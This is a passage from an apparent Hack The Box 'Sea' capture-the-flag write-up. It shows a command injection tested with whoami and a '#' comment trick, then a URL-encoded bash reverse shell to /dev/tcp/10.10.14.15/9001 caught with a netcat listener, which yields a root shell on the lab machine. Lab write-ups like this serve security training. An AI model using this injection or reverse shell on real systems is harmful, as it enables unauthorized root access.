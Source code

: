 Now I added `whoami` command.
Initially, naive `whoami` doesn't work.
But it worked when I added `#` to comment the following part out.

![](attachments/sea_12.png)

It turned out that the command is run by `root`.

To open a reverse shell, I put the following payload :
`bash+-c+'sh+-i+>%26+/dev/tcp/10.10.14.15/9001+0>%261'`

![](attachments/sea_13.png)

```bash
┌──(kali㉿kali)-[~/htb/sea]
└─$ nc -nlvp 9001           
listening on [any] 9001 ...
connect to [10.10.14.15] from (UNKNOWN) [10.10.11.28] 33822
sh: 0: can't access tty; job control turned off
# id
uid=0(root) gid=0(root) groups=0(root)
# whoami
root
```

Then, I can get a shell as `root`.